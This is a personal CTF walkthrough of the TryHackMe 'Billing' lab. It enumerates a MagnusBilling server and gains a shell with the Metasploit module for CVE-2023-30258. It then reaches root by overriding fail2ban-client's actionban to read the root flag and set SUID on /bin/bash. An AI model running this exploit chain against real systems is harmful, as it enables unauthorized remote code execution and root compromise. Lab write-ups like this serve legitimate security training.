

# TryHackMe Billing Room Walkthrough Deep Dive into MagnusBilling Exploitation and Privilege Escalation

The TryHackMe "Billing" room is referred to as easy  but it took me days to break through. I had to revisit core fundamentals, especially how Fail2Ban operates, and gain a hands-on understanding of how service misconfigurations can lead to privilege escalation. Here’s a detailed step-by-step breakdown of my journey, complete with code explanations for future reuse.

### Step 1: Initial Reconnaissance

i started with nmap scanning and went a head for a full nmaps scan

```
nmap -sC -sV -p- -oN full-scan.txt 10.10.41.56
```



### Step 2: Testing Port 22 (SSH)

To confirm SSH was live and responding:

```
nc -nv 10.10.41.56 22
```


This outputs the SSH banner, confirming the version and the fact that SSH is running. However, since we didn’t have login credentials and no known vulnerability matched this SSH version, we couldn't exploit it directly.

**Conclusion:** Port 22 is active but not exploitable without creds or private keys.

### Step 3: Web Application Enumeration (Port 80)

### Check robots.txt:

```
curl http://10.10.41.56/robots.txt
```


**Result:** Revealed `/mbilling` the MagnusBilling login page.

went ahead and clicked the link

Requested resource was [http://10.10.41.56/mbilling/](http://10.10.41.56/mbilling/)

and there was nothing here:


### Directory Bruteforcing:

I used **Gobuster** to enumerate hidden files and directories.

```
gobuster dir -u http://10.10.41.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,log
```


**Findings:** Found log files and index.php, but nothing immediately exploitable.

- `htaccess`, `.htpasswd` (**Restricted access**)
- **Log files:** `akeeba.backend.log`, `server-status`, `production.log`
- `index.php` (**Indicating a PHP-based backend**)
- **MagnusBilling login page** found at `/mbilling/`

Conclusion: The real lead was the `/mbilling` directory pointing to a known application.

---

**Findings:**

| Port | Service | Notes |
| --- | --- | --- |
| 22 | SSH (OpenSSH 8.4p1) | Open, but we have no credentials. |
| 80 | HTTP (Apache 2.4.56) | Hosts MagnusBilling Web App. |
| 3306 | MySQL (MariaDB) | Requires authentication; no creds found. |

---

### 

### Step 4: Exploiting MagnusBilling — CVE-2023-30258

After identifying the MagnusBilling version, I searched for public exploits and found this unauthenticated remote code execution (RCE) vulnerability:

🔗 [**CVE-2023–30258**](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)


under CVE the classification it allows remote attacker to run a command via unauthenticated HTTP request.

### Launch Metasploit:

```
search magnusbilling
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS billing.thm
set LHOST tun0
exploit

```

Outcome: Got a shell as `asterisk` user.

```jsx
search magnusbilling
```


2.use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258


1. set RHOSTS billing.thm
set LHOST tun0
exploit


1. cd /home /magnus


1. cat user.txt(The **user.txt** file is at the end. Let’s read it:)


When we look at the commands that can be run with sudo privileges without requiring a password, we come across an interesting entry: “fail2ban-client.”

 what is Fail2Ban?

> Fail2Ban is an open-source security software that monitors log files of services such as SSH, FTP, and HTTP on Linux and Unix-based systems to detect unauthorized access attempts like brute-force attacks and blocks suspicious IP addresses.
> 


### Step 5: Privilege Escalation via Fail2Ban Misconfiguration

### Check sudo permissions:

`sudo -l` is a powerful Linux command used to **list all the commands a user is allowed (or not allowed) to run using `sudo`**, which is crucial during **privilege escalation** in red teaming or CTFs.

We have transitioned to the Meterpreter shell. Now, let’s navigate through the system to find the possible user.txt file:

```
sudo -l
```


**Output:**

```
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This meant we could run `fail2ban-client` as root without providing a password.

### What is Fail2Ban?

Fail2Ban is an intrusion prevention framework that scans log files and bans IPs showing malicious signs. It uses `actionban` commands to apply bans  these are executed with root privileges.

### Step 6: Abusing Fail2Ban for Root Access

If we check the status of fail2ban-client, we see 8 jails (configurations)


We inject a command into Fail2Ban to copy the root flag to a readable location:

```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt'"
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
cat /tmp/flag.txt
```

```bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@Billing$ sudo /usr/bin/fail2ban-client get asterisk-iptables  actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables addaction evil
evil
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.5
1
asterisk@Billing$ /bin/bash -p
bash-5.1# cat /root/root.txt
THM{REDACTED}
```

- `actionban` is overridden with a command that reads the root flag.
- Triggered using `banip` on localhost to execute the payload.

 Root flag obtained.

This gives a persistent root shell.

### 

### Mitigation Recommendations

- Update MagnusBilling to a secure, patched version.
- Restrict `sudo` permissions to trusted commands only.
- Isolate unnecessary services (SSH, MySQL) from public networks.

### Final Thoughts

This room sharpened my skills in:

- Enumerating services thoroughly.
- Recognizing known software and researching public exploits.
- Abusing defensive tools like Fail2Ban for privilege escalation.

More than just capturing a flag, this exercise taught me how attackers think and how defenders must anticipate these creative attack paths.

Stay curious. Hack smart. Harden everything.
